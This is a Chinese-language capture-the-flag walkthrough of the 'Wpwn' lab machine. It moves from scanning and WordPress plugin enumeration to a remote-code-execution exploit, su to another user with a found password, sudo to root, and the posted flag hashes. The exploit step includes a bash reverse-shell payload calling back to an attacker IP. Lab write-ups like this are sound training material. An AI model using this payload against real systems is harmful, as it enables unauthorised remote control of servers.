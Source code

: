 # Wpwn

初始掃描開22跟80 感覺80能打
![](images/GcTEVfD.png)

根目錄什麼東西都沒有 掃一下能發現有wordpress
![](images/eLQD3oz.png)

![](images/T9qTBv4.png)

直接上wpscan 找到一個plugin是不常見的 用searchsploit找可以發現有RCE的漏洞
![](images/1fxO5NS.png)

![](images/9dkpgH9.png)

在看了exploit的說明跟原始碼感覺不是很理解 到他的Github上看可以發現payload.txt要用他的格式才能做Command Execution
![](images/iowym4g.png)

![](images/xTMgamH.png)

直接把這一串塞到meow.txt裡面 然後開一個http server後執行exploit 就能直接RCE了
```
<pre>system("bash  -c 'bash -i >& /dev/tcp/192.168.49.207/443 0>&1'")</pre>
```

![](images/OAUc6aC.png)

#### 橫向提權

跑linPEAS找到一個奇怪的密碼 直接`su takis` 發現成功提到takis
![](images/kZkq7Mw.png)

![](images/daco0n4.png)

#### 垂直提權

提到takis以後`sudo -l` 結果發現是ALL 直接`sudo su`就是root了
![](images/oZIjeBt.png)

#### Proof

local.txt
`2e74dca60755cc6512f2ff21aa13f3d8`
![](images/9x4u9OW.png)

proof.txt
`67700d1daeab233daaffd38a88b22db0`
![](images/EDiUYe1.png)